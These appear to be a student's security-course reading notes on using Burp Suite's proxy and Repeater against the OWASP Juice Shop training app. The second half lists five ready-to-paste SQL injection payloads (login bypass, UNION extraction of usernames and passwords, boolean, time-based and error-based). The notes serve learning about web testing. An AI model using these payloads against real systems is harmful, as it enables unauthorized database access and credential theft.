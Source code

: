 # Reading 38: Attacking a Juice Shop with Burp Suite

[Resource: What is Burp Suite?](https://www.technipages.com/what-is-burp-suite/)

**1. Explain how Burp Suite allows us to analyze web application traffic.**
- Burp Suite allows us to analyze web application traffic by acting as a proxy that intercepts web requests and responses. It reads and edits them in real-time before they reach their destinations. This interception capability enables testers to observe and modify the traffic, allowing them to identify vulnerabilities and test how the web application reacts to various inputs.

**2. What does the Repeater tool allow us to do with requests?**
- The Repeater tool in Burp Suite allows us to make manual modifications to web requests and view the corresponding responses side by side. This enables testers to fine-tune exploit attempts by adjusting parameters and payloads, helping them understand the effectiveness of their attacks.

**3. Why might this be a useful tool for an attacker?**
- The Repeater tool's ability to make manual modifications to requests and view responses in real-time is useful for attackers because it allows them to iteratively refine their attack strategies. By observing how the target application responds to different inputs, attackers can tailor their exploits to maximize their chances of success. Additionally, the tool provides immediate feedback, enabling attackers to quickly iterate and adapt their tactics during the attack process.

# SQL Injection Commands for Burp Suite Repeater Attacks

Below are examples of SQL injection commands that can be used in conjunction with Burp Suite Repeater for SQL injection attacks:

1. **Basic SQL Injection**: 
   ```
   ' OR 1=1 --
   ```
   This command typically returns all records from the database by bypassing the login authentication.

2. **Union-based SQL Injection**:
   ```
   ' UNION SELECT username, password FROM users --
   ```
   This command exploits the UNION SQL operator to retrieve sensitive information like usernames and passwords from the database.

3. **Boolean-based Blind SQL Injection**:
   ```
   ' OR (SELECT COUNT(*) FROM information_schema.tables) > 0 --
   ```
   This command checks if the condition is true, indicating a successful injection, without displaying any data directly.

4. **Time-based Blind SQL Injection**:
   ```
   ' OR SLEEP(5) --
   ```
   This command causes a delay in the response if the injection is successful, indicating vulnerability through time-based analysis.

5. **Error-based SQL Injection**:
   ```
   ' OR 1=1 AND (SELECT 1/0) --
   ```
   This command triggers an error in the SQL query, revealing database information in the error message.

Ensure to use these commands responsibly and only on systems where you have permission to test for vulnerabilities.
